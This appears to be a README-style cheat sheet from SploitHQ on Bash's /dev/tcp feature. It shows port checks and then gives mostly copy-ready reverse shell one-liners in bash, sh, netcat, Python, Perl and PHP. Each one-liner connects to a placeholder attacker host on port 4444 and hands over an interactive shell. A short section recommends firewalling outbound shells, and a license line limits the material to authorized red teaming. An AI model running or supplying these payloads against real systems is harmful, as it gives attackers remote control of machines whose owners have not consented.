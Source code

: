 # /dev/tcp – Remote Shells & Connectivity via Shell Built-ins

The special file `/dev/tcp` allows **Bash** and some **sh-compatible shells** to make TCP (and UDP) connections directly from the command line — without external tools. It's commonly used for creating **reverse shells**, **port checks**, and **simple HTTP clients** from within the shell itself.

🔗 [Explore Shell-Based Connectivity on SploitHQ](https://sploithq.com/dev-tcp)

---

## 🔍 What Is `/dev/tcp`?

In Bash and certain POSIX-compliant shells, `/dev/tcp/HOST/PORT` is a virtual interface that opens a socket to a host and port, letting you send and receive data like a network client.

Supported in:
- `bash`
- `sh` (some versions)
- Not available in most other shells by default

---

## ⚙️ Basic Usage

### Check if a port is open:
```bash
echo > /dev/tcp/target.com/80 && echo "Port open" || echo "Port closed"
```

### Connect and manually type input/output:
```bash
exec 3<> /dev/tcp/target.com/80
echo -e "HEAD / HTTP/1.0\r\n" >&3
cat <&3
```

---

## 🧪 Reverse Shell Examples (via /dev/tcp)

### Bash Reverse Shell
```bash
bash -i >& /dev/tcp/attacker-ip/4444 0>&1
```

### Minimal Sh Reverse Shell (if supported)
```sh
0<&196;exec 196<>/dev/tcp/attacker-ip/4444; sh <&196 >&196 2>&196
```

---

## 🧰 Alternative Shells for Remote Connectivity

| Language | Reverse Shell Example |
|----------|------------------------|
| **Netcat** | `nc -e /bin/sh attacker-ip 4444` *(or use `-c` instead of `-e`)* |
| **Python** | `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("attacker",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'` |
| **Perl** | `perl -e 'use Socket;$i="attacker";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` |
| **PHP** | `php -r '$sock=fsockopen("attacker",4444);exec("/bin/sh -i <&3 >&3 2>&3");'` |

---

## ⚠️ Security Considerations

- `/dev/tcp` is a shell feature — **not a real device**.
- Only available in shells compiled with networking support (like Bash).
- Use in **trusted environments only** — it does not offer encryption or authentication.
- Block outbound shells with firewalls and restrict shell access on production systems.

---

## 🌐 SploitHQ Shell Connectivity Hub

👉 [Visit the /dev/tcp Shell Page](https://sploithq.com/dev-tcp)

- Browse reverse shell examples for different languages
- Use copy-ready payloads for testing and simulations
- Learn how to build connectivity without netcat or socat

---

## 🔗 Related Tools

- [Netcat](https://sploithq.com/netcat)
- [Python Socket Tools](https://docs.python.org/3/library/socket.html)
- [SploitHQ Shell Pages](https://sploithq.com/dev-tcp)

---

## 📄 License

This reference is maintained by [SploitHQ](https://sploithq.com) and intended for educational, testing, and authorized red teaming only.
